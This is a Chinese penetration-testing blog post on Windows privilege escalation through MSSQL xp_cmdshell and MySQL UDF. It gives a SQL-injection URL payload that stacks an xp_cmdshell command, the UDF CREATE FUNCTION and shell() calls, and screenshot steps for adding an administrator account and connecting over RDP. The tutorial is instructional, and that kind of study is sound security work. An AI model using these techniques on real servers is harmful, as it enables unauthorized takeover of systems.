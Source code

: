 +++
date = "2016-08-07T23:38:58+08:00"
description = ""
draft = false
tags = ["intranet"]
title = "Windows下第三方服务提权"
topics = ["Pentest"]

+++

### 0x00  MSSQL提权
MSSQL运行在system权限时才可以通过xp_cmdshell组件执行系统命令提权  
提权条件：数据库账号是DBA权限

*  关于xp_cmdshell
    * 得到数据库连接信息，连接数据库后执行```EXEC xp_cmdshell 'net user';```
    * 有sql注入时也可以直接在url上使用xp_cmdshell，因为mssql可以多语句执行，例如```?id=1;EXEC xp_cmdshell 'net user';--```

* 连接数据库
![Windows下第三方服务提权-找数据库连接信息](/img/post/privilge_escalation_win_find_sql_conn_msg.png)
![Windows下第三方服务提权-连接mssql数据库](/img/post/privilge_escalation_win_conn_mssql.png)

* 执行系统命令
![Windows下第三方服务提权-尝试用xp_cmdshell执行命令](/img/post/privilge_escalation_win_try_exec_sys_command.png)
![Windows下第三方服务提权-开启xp_cmdshell组件](/img/post/privilge_escalation_win_open_cmd_shell.png)
![Windows下第三方服务提权-使用xp_cmdshell成功执行命令](/img/post/privilge_escalation_win_exec_sys_command_success.png)

* 添加用户
![Windows下第三方服务提权-添加用户](/img/post/privilge_escalation_win_add_user.png)
![Windows下第三方服务提权-查看添加的用户](/img/post/privilge_escalation_win_view_user.png)

* 远程连接
![Windows下第三方服务提权-远程连接](/img/post/privilge_escalation_win_remote_conn.png)
![Windows下第三方服务提权-输入用户名和密码](/img/post/privilge_escalation_win_input_u_p.png)
![Windows下第三方服务提权-输入用户名和密码](/img/post/privilge_escalation_win_remote_connection_view_ip.png)

### 0x01 MySQL提权
环境：web应用服务器权限较低  
提权条件：MySQL是system权限

* 关于UDF

MySQL提权可以用UDF和Mof。UDF就是User defined Function，即用户定义函数，可以通过创建存储方法来定义函数，从而调用系统命令。

* UDF提权过程
    * 导入udf.dll到服务器指定目录  
        * MySQL版本小于5.1的udf.dll要导入到c:\windows\目录下  
        * MySQL版本大于等于5.1的udf.dll要导入到plugin_dir目录，plugin_dir在MySQL安装目录下的lib/plugin目录下(MySQL安装目录可以用select @@basedir得到)，默认不存在这个目录，我们要自己创建
    * 使用SQL语句创建功能函数  
        CREATE FUNCTION shell RETURNS STRING SONAME 'udf.dll';
    * 执行MySQL语句调用新创建的函数  
        select shell('cmd','whoami');
    * 删除创建的函数  
        drop function shell;

* 查看基本信息
![Windows下第三方服务提权-查看基本信息](/img/post/privilge_escalation_win_view_base_msg.png)
![Windows下第三方服务提权-查看当前用户](/img/post/privilge_escalation_win_view_current_user.png)
![Windows下第三方服务提权-查看当前用户权限](/img/post/privilge_escalation_win_view_current_user_permissions.png)

* 上传udf提权
![Windows下第三方服务提权-上传udf](/img/post/privilge_escalation_win_upload_udf.png)
![Windows下第三方服务提权-连接数据库](/img/post/privilge_escalation_win_conn_mysql.png)
![Windows下第三方服务提权-导出udf.dll并生成函数](/img/post/privilge_escalation_win_export_udf.png)
![Windows下第三方服务提权-提权成功执行whoami](/img/post/privilge_escalation_win_exec_whoami.png)

* 添加用户
![Windows下第三方服务提权-通过shell函数添加用户](/img/post/privilge_escalation_win_shell_add_user.png)
![Windows下第三方服务提权-通过shell函数添加用户到管理员组](/img/post/privilge_escalation_win_shell_add_user_to_administrators.png)
![Windows下第三方服务提权-通过shell函数激活用户](/img/post/privilge_escalation_win_shell_active_user.png)
![Windows下第三方服务提权-通过shell函数查看用户](/img/post/privilge_escalation_win_shell_view_user.png)

* 远程连接
![Windows下第三方服务提权-远程3389连接](/img/post/privilge_escalation_win_shell_remote_connection.png)
